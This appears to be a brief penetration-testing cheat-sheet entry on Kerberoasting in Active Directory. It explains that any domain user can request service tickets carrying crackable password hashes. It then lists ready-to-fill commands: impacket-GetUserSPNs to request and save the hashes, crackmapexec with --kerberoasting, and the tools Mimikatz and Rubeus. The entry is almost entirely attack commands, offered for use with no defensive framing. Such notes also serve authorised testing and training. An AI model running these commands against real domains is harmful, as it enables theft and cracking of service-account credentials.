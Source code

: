 # Kerberoasting
By default, all standard domain users can request a copy of all service accounts ST (with SPN value set) along with their correlating password hashes.
`impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASS>' -dc-ip <IP>`
`impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASS>' -dc-ip <IP> -outputfile kerb.hash`
`impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASS>' -dc-ip <IP> -request`
`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --kerberoasting <OUTPUT.TXT>`
`Mimikatz`
`Rubeus`